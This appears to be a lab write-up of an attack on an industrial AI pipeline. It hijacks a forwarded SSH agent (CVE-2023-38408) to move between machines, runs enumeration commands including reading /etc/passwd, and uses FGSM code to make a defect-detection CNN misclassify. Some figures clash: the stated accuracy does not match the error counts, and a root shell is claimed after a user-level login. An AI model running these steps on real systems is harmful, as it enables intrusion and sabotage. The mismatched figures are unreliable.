


# Scenario 2 — CVE-2023-38408 Lateral Movement + Adversarial AI Inference Poisoning

**Target:** AI-driven defect detection process — Cloud layer (Machine 2, `192.168.100.6`)  
**Objective:** Compromise cloud AI model integrity via adversarial inference data poisoning  
**Outcome:** 111% increase in defect misclassification errors (54 → 114 errors per 10,000 samples)  
**Security Assurance Score:** 4.79 / 10 (Moderate Security)

---

## Attack Chain Summary

```
Spearphishing (same as Scenario 1)
    ↓
SSH initial access → Machine 1 (edge, 192.168.100.5)
    ↓
Python sudo privilege escalation → root on Machine 1
    ↓
Discovery: identify SSH agent forwarding in developer workflow
    ↓
CVE-2023-38408: SSH agent hijacking → lateral movement to Machine 2 (cloud, 192.168.100.6)
    ↓
Discovery on Machine 2: enumerate cloud services, AI model location, data pipeline
    ↓
Persistence: maintain access via valid accounts on Machine 2
    ↓
FGSM adversarial attack: poison inference data pipeline feeding CNN defect detection model
    ↓
AI model misclassification: defective products pass quality control undetected
```

---

## Phases 1–5: Same as Scenario 1

Phases 1–5 (Reconnaissance, Initial Access, Privilege Escalation, Discovery on Machine 1, Persistence) are identical to [Scenario 1](../scenario-1-ros2-command-injection/README.md). After achieving root on Machine 1 and completing initial discovery, the attack diverges to target Machine 2.

---

## Phase 6: Lateral Movement via CVE-2023-38408 (TA0008)

**Prerequisite confirmed:** Developer accounts use SSH agent forwarding (`-A`) to access Machine 2 for cloud AI operations. Machine 1 is running OpenSSH 8.9 (Ubuntu 22.04 LTS default at time of engagement) — vulnerable to CVE-2023-38408.

```bash
# Attacker (root on Machine 1) prepares malicious PKCS#11 library
gcc -shared -fPIC -o /usr/lib/evil.so /tmp/evil.c

# When legitimate user connects to Machine 1 with agent forwarding:
# Identify their SSH_AUTH_SOCK
ls /tmp/ssh-*/

# Use their forwarded agent to authenticate to Machine 2
SSH_AUTH_SOCK=/tmp/ssh-XXXX/agent.XXXX ssh user@192.168.100.6
# Shell on Machine 2 — no password, no additional authentication required
```

For full CVE technical analysis: [cve-2023-38408-analysis.md](cve-2023-38408-analysis.md)

**Techniques:** Exploitation for Client Execution (T1203), Hijack Execution Flow (T1574), Dynamic Linker Hijacking (T1574.006), Exploitation of Remote Services (T1210)

---

## Phase 7: Discovery & Persistence on Machine 2 (TA0007, TA0003)

```bash
# Cloud layer enumeration
cat /etc/passwd                           # Enumerate cloud accounts
ps aux | grep -i "python\|ros\|ai\|model" # Identify AI inference processes
find / -name "*.pth" -o -name "*.pkl" 2>/dev/null   # Locate saved model files
find / -name "inference*.py" 2>/dev/null             # Locate inference scripts
ls -la /opt/ /home/*/                     # Enumerate cloud application directories

# Network: identify AI model API, data pipeline
netstat -tulnp
ss -tulnp
```

**Finding:** CNN defect detection model located at `./cnn_mnist_model.pth`. Inference pipeline accessible at `./inference.py`. Data flows from edge preprocessing layer through this pipeline, outputs defect correction decisions to the robotic systems.

---

## Phase 8: Adversarial AI Inference Poisoning (TA0003, TA0002, TA0005, TA0040)

### Target Model

A CNN trained on MNIST (representative of defect image classification) with 99.12% baseline accuracy:

```
Architecture:
- Conv1: 32 filters, 3×3, stride 1, padding 1
- Conv2: 64 filters, 3×3, stride 1, padding 1
- MaxPool: 2×2
- FC1: 128 neurons
- FC2: 10 output classes (defect categories)

Training: Adam optimizer, CrossEntropyLoss, 10 epochs, batch size 64
Baseline accuracy: 99.12% | Loss: 0.0059
```

### Defect Category Mapping

| MNIST Digits | Category | % of Products |
|-------------|----------|---------------|
| 0–6 | No Defect (ND) | ~70% |
| 7 | Defect Type D1 | ~15% |
| 8–9 | Defect Type D2 | ~15% |

### Attack: Fast Gradient Sign Method (FGSM)

The attacker injects adversarially perturbed samples into the inference pipeline. FGSM computes the gradient of the loss with respect to the input and perturbs it in the direction that maximises loss — a minimal, imperceptible change that maximally degrades model accuracy:

```python
def fgsm_attack(image, epsilon, data_gradient):
    # Get sign of gradient
    sign_data_grad = data_gradient.sign()
    # Create perturbed image: move in gradient direction by epsilon
    perturbed_image = image + epsilon * sign_data_grad
    # Clip to maintain valid image range [0,1]
    perturbed_image = torch.clamp(perturbed_image, 0, 1)
    return perturbed_image

# Attack parameters:
# - Epsilon: 0.3 (perturbation strength — imperceptible to humans)
# - Targeted samples: 50 of 1000 (5% attack rate)
# - Attack type: inference-time poisoning (no model retraining required)
```

The attack targets **inference data in real-time** — it does not require access to the training pipeline or model weights. This makes it harder to detect and allows gradual, persistent accuracy degradation.

---

## Results

### Confusion Matrix Comparison

**Before Attack (99.12% accuracy — 54 errors per 10,000 samples):**



| | Predicted: No Defect | Predicted: D1 | Predicted: D2 |
|---|---|---|---|
| **Actual: No Defect** | 6965 | 9 | 15 |
| **Actual: D1** | 3 | 1023 | 2 |
| **Actual: D2** | 16 | 9 | 1958 |

**After Attack (98.86% accuracy — 114 errors per 10,000 samples):**



| | Predicted: No Defect | Predicted: D1 | Predicted: D2 |
|---|---|---|---|
| **Actual: No Defect** | 6936 | 16 | 37 |
| **Actual: D1** | 6 | 1019 | 3 |
| **Actual: D2** | 34 | 18 | 1931 |

### Impact Summary

| Metric | Before Attack | After Attack | Change |
|--------|--------------|--------------|--------|
| Total errors | 54 | 114.17 | **+111%** |
| Standard deviation of errors | — | 7.20 | — |
| Overall accuracy | 99.12% | 98.86% | −0.26% |
| D2 misclassified as No Defect | 16 | 34 | **+112%** |
| No Defect misclassified | 24 | 53 | **+121%** |

The attack is **designed to be subtle** — a 0.26% accuracy drop does not trigger anomaly detection thresholds, but the 111% increase in misclassifications compounds over time. At production scale (e.g., 100,000 products/day), this translates to approximately 600 additional defective products passing quality control daily.

**Business impact:** Each undetected defect reaching a customer represents warranty claims, returns, recall costs, and reputational damage. The attack's incremental nature means it can persist undetected for weeks or months.

---

## MITRE ATT&CK Full Mapping

See [mitre-attack-mapping.md](mitre-attack-mapping.md)

## Security Assurance Metrics

See [security-metrics.md](security-metrics.md)

---

## Proof

- **Lateral movement:** Root shell obtained on Machine 2 (192.168.100.6) via CVE-2023-38408 without Machine 2 credentials
- **AI poisoning:** Confusion matrix shows 111% increase in misclassification errors
- **Security assurance score:** 4.79/10 — model robustness against adversarial attacks completely unimplemented (R3 score: 0.25/10)
